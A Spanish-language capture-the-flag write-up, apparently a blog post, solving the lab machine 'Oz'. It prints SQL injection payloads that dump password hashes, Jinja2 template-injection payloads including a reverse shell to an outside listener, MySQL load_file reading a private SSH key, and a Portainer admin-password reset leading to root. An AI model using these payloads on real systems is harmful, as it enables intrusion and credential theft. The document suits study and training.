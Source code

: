 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Oz                 |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.96        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Oz/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.96
```

![nmap 1](/assets/images/Oz/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.96 -oG allPorts
```

![nmap2](/assets/images/Oz/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80,8080 10.10.10.96 -oN targeted
```

![nmap3](/assets/images/Oz/nmap3.png)

Continuemos enumerando informacion de los sitios con whatweb. A simple viste la pagina en puerto 80 pide la autenticacion de un usuario y la de puerto 8080 te hace el login.

![whatweb](/assets/images/Oz/whatweb.png)

Vamos ahora a aplicar Fuzzing sobre la aplicacion de API.

```s
wfuzz -c -t 200 --hw=1,4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.96/FUZZ
```

Vemos que en la ruta /users la comilla simple genera un error, por lo que podria significar que se puede aplicar un sqli.

![SQLI](/assets/images/Oz/sqli1.png)

Metemos el tipico or 1=1 -- - y si nos devuelve hasta un usuario. Ahora para poder enumerar mas usuarios podemos meter un or 1=1 limit 1,1. Podemos ahora insertar un usuario de la siguiente manera:

```sql
union select database() -- -
union select schema_name from information_schema.schemata limit 0,1; -- -
union select table_name from information_schema.tables where table_schema="ozdb" -- -
union select group_concat(column_name) from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" -- -
```

|   #   |     Database       |     
|:------|:-------------------|
| 0     | information_schema |
| 1     |    mysql           |
| 2     |    ozdb            | 
| 3     | performance_schema |

|   #   |     Tables ozdb    |     
|:------|:-------------------|
| 0     | tickets_gbw        |
| 1     |    users_gbw       |

|   #   |  Table users_gbw   |     
|:------|:-------------------|
| 0     |   id               |
| 1     |   username         |
| 2     |   password         |

Para iterar los usuarios

```bash
for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'or%201=1%20limit%20$i,1%20--%20-"; done | jq
```

![database name](/assets/images/Oz/database_name.png)

```s
curl -s -X GET "http://10.10.10.96/users/'union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq
```

Para crackear los hashes encontrados:

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
#Si tenemos tarjeta grafica
hashcat -m 10900 -a 0 rockyou.txt --user
#wizard.oz  wizardofoz22
```

Ahora podemos entrar al panel del puerto 8080 con la contrasena encontrada.

Abriremos burpsuite para empezar a hacer pruebas con este formulario tickets e intentar un SSTI.

![Burp 1](/assets/images/Oz/response_test.png)

Como vemos que la respuesta de nuestra prueba se refleja tal cual lo escribimos, es posible hacer un ssti, tambien sabemos que el motor que usa es flask de python y por lo tanto podremos enumerar posibles cosas.

De acuerdo con maquinas anteriores que habiamos hecho, podemos intentar pasarle a la peticion una prueba para que interprete. Para mas informacion, en el siguiente<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection"> link.</a>

{{7*7}}

![Burp 2](/assets/images/Oz/burp2.png)

Ahora podemos intentar insertar comandos con un:
```py
{{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/fib_trie").read() }}
```
Ahora que ya sabemos que usaurio somos, y somos root, procedimos a meter un ifconfig y como no vemos la ip de la maquina objetivo significa que estamos en un docker.

Podemos ver ahora los puertos expuestos realmente con un
```py
{{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/tcp").read() }}
```
La respuesta de los puertos estara en hexadecimal y para verlos hacemos un:

```bash
echo "8C65
1F90
E412" | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
```

Ahora lo que intentaremos es inyectar un archivo malicioso con el script:

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.29 443 >/tmp/f',shell=True) }}

Vemos que en la ruta /containers/database hay credenciales para quizas otro contenedor

![Database creds](/assets/images/Oz/database_creds.png)

Dentro de este contenedor, existe una ruta en el /.secret, dentro de este directorio vemos un archivo de configuracion del knock el cual sirve para establecer politicas. Hay una linea para abrir o cerrar el Openssh de acuerdo al portknocking, y para forzarlo haremos el siguiente comando:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh dorth@10.10.10.96
```

No funciono, asi que ahora podemos tambien listar las demas maquinas que tenemos enfrente con:

```s
for i in $(seq 1 254); do (ping -c 1 10.100.10.$i | grep "bytes from"&); done
```

Y para detectarles sus puertos, podemos lanzar un:

```s
for port in $(seq 1 65535); do (nc -nvz 10.100.10.4 $port); done
```

Como el unico puerto que tiene abierto es el de mysql, procedemos a conectarnos al servicio con las credenciales antes encontradas:

```s
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'show databases'
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'select load_file("/home/dorthi/.ssh/id_rsa")' | sed 's/\\n/\n/g'
```

Como tenemos ahora un id_rsa podemos volver a intentar ahora si

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96
```

Este id_rsa esta cifrado, asi que ahora para romper el cifrado podemos usar:

```s
ssh2john id_rsa > data
```

Ahora que tenemos un formato descifrable, usamos el siguiente comando, con las contrasenas encontradas para ver cual es la que sirve para esta clave:

```s
john --wordlist=pass data
#N0Pl4c3L1keH0me
```

Ahora tenemos acceso a la flag y para escalar privilegios, existe un contenedor que es para gestionar los contenedores en el puerto 9000, para usarlo solo usaremos:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96 -L 9000:172.17.0.2:9000
```

Ahora podemos visitar el portainer desde nuestro navegador con un localhost:9000, para esta version de portainer, la contrasena de admin se puede cambiar multiples veces con la siguiente peticion:

```s
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password": "rebick"}'
```

Ahora que tenemos acceso a esta interfaz, nos crearemos un contenedor con las siguientes caracteristicas para poder escribir sobre root.

![Container create](/assets/images/Oz/container_create.png)

Ahora solo tenemos que iniciar desde esta interfaz una shell con los privilegios que inicialmente nos da que son de root y dentro de rootfs tenemos el verdadero sistema operativo.

![root](/assets/images/Oz/root.png)

![Powned](/assets/images/Oz/powned.png)